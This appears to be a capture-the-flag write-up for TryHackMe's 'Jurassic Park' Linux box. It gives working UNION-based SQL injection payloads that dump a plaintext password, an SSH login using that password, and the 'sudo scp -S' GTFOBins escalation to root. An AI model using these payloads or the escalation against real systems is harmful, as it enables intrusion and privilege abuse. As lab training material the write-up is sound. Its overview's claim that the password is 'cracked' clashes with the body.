


Jurassic Park
// Overview
Jurassic Park is a Linux box themed around a dinosaur-park gift shop. The path starts with a numeric id parameter on item.php, runs through a hand-rolled UNION-based SQL injection into the users table, cracks Dennis's password, and pivots via SSH. Post-foothold, the flags hide in .viminfo and .bash_history, and root falls to a textbook GTFOBins scp escalation.
Flags and puzzle answers have been redacted per TryHackMe's write-up policy. Credentials are shown where they're part of the learning path.

id parameter is a textbook SQLi candidate.// Reconnaissance
Port Scanning
A standard script and version scan exposes two services — SSH and HTTP:
$ nmap -sC -sV <target_ip> PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 7.2p2 Ubuntu 80/tcp open http Apache httpd 2.4.18
Web Enumeration
Port 80 serves the gift shop. Directory brute-forcing turns up the usual static assets plus a handful of PHP pages:
$ gobuster dir -u http://<target_ip> -w /usr/share/wordlists/dirb/common.txt /assets /images /admin.php /item.php /login.php ...
Browsing to item.php?id=1 returns a product page. That numeric id is the classic sign of a SQL injection candidate — the application is almost certainly passing it straight into a query.
// SQL Injection — Dumping the Users Table
A single quote on the parameter confirms the injection:
http://<target_ip>/item.php?id=1'
A SQL error (or a blanked page) is the tell. From there, the method is: find the column count, find which columns are reflected on the page, then use those reflected columns to pull data out of information_schema before dumping the table that matters.
Column Count and Reflected Columns
Incrementing an ORDER BY until the page breaks gives the column count; a UNION SELECT 1,2,3,4,5 then shows which positions render on the page. Both land on five columns, and the reflected positions are enough to work with.
?id=5 UNION SELECT 1,2,3,4,5 ?id=5 UNION SELECT 1,database(),version(),4,5
The schema is park and the backend is MySQL 5.7.25-0ubuntu0.16.04.2 — a useful detail later, since that build ties the box to Ubuntu 16.04.

UNION SELECT output — reflected columns make enumeration straightforward.Enumerating the Schema
With reflected columns in hand, information_schema does the rest — first the tables, then the columns of the interesting one:
?id=1 UNION SELECT 1,2,3,GROUP_CONCAT(table_name),5 FROM information_schema.tables WHERE table_schema=database() ?id=1 UNION SELECT 1,2,3,GROUP_CONCAT(column_name),5 FROM information_schema.columns WHERE table_schema=database() AND table_name="users"
This surfaces a users table with a plaintext password column. A final UNION dumps it:
?id=1 UNION SELECT 1,2,3,password,5 FROM users
The table holds a single account — Dennis — and the dumped password is ih8dinos. No cracking needed here; the application stores credentials in cleartext. The username is also hinted at on the id=5 page, so pairing the two is enough to move to SSH.
// Foothold
Log in as Dennis with the dumped password:
$ ssh dennis@<target_ip> dennis@<target_ip>'s password: ih8dinos dennis@jurassicpark:~$
Reading the Flags from Home-Directory Artefacts
The first flag sits plainly in Dennis's home directory, but the other two are hidden in the sort of files people forget persist between sessions. .viminfo records the paths of files opened in Vim, which points straight at a flag outside the home directory:
$ ls flag1.txt $ cat flag1.txt [redacted] $ grep -i flag .viminfo /boot/grub/fonts/flagtwo.txt $ cat /boot/grub/fonts/flagtwo.txt [redacted]
The third flag is visible in Dennis's command history — he read it in a previous session and the shell remembered:
$ cat .bash_history [redacted]
There's a fourth flag referenced in .viminfo — /tmp/flagfour.txt — but the path is empty. It's a deliberate dead end: the room states there is no fourth flag, and the evidence agrees.
.viminfo references /tmp/flagfour.txt, but the file does not exist. There is no fourth flag.
.viminfo persists the paths of files opened in Vim, and .bash_history persists commands run in the shell. Both survive between sessions and are a standard post-foothold check — a lot of "hidden" flags live in exactly these two files.
// Privilege Escalation — scp (GTFOBins)
A quick sudo -l shows Dennis can run scp as root without a password:
$ sudo -l
User dennis may run the following commands on jurassicpark:
(ALL) NOPASSWD: /usr/bin/scp
This is a known GTFOBins entry. scp accepts -S to specify the program used for the SSH connection; pointing that at a script that spawns a shell, invoked through sudo scp, runs the shell as root:
$ TF=$(mktemp) $ echo 'sh 0<&2 1>&2' > $TF $ chmod +x "$TF" $ sudo scp -S $TF x y: # id uid=0(root) gid=0(root) groups=0(root)
From the root shell, the fifth flag:
# cat /root/flag5.txt [redacted]
scp -S lets you substitute the program used for the SSH transport. Pointing it at a script that execs a shell, and invoking the whole thing via sudo scp, means that shell runs as root. It's the same family of trick as the yum plugin escalation on Daily Bugle — sudo -l is always the first post-foothold check for a reason.
// Verdict
Jurassic Park is a clean, linear SQLi-to-root box. The injection is the star — hand-rolling the UNION queries teaches you more about information_schema than running sqlmap would — but the interesting parts are the post-foothold enumeration (.viminfo, .bash_history, and the deliberate fourth-flag dead end) and the scp GTFOBins escalation. The dead end is a nice touch: it rewards reading the evidence instead of trusting the hint.
→ 7/10 — recommended as a first "real" SQLi box. The injection is straightforward, so the learning value is concentrated in the pivot and privesc.